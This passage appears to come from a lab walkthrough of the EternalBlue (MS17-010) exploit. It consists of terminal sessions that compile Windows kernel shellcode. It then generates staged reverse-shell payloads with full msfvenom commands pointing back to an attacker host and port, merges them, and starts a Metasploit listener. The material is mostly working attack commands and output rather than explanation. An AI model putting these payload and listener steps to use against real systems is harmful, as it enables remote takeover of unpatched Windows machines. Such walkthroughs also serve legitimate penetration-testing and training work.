 ```bash
Let's compile them windoos shellcodezzz
Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.0.2.4
LPORT you want x64 to listen on:
44444
LPORT you want x86 to listen on:
44445
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
0
Generating x64 cmd shell (staged)...

msfvenom -p windows/x64/shell/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.0.2.4 LPORT=44444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (staged)...
msfvenom -p windows/shell/reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.0.2.4 LPORT=44445
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```
#### Listener
Now that the shellcode is ready, let's setup the listener. `cd ..` back into the root dir of this repo. Run `./listener_prep.sh` w/ the following inputs:
```bash
┌──(venv)(hakcypuppy㉿kali)-[~/blue/AutoBlue-MS17-010]
└─$ ./listener_prep.sh 
  __
  /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
10.0.2.4
LPORT for x64 reverse connection:
44444
LPORT for x86 reverse connection:
44445
Enter 0 for meterpreter shell or 1 for regular cmd shell:
1
Type 0 if this is a staged payload or 1 if it is for a stageless payload
0
Starting listener (staged)...
Starting postgresql (via systemctl): postgresql.service.
```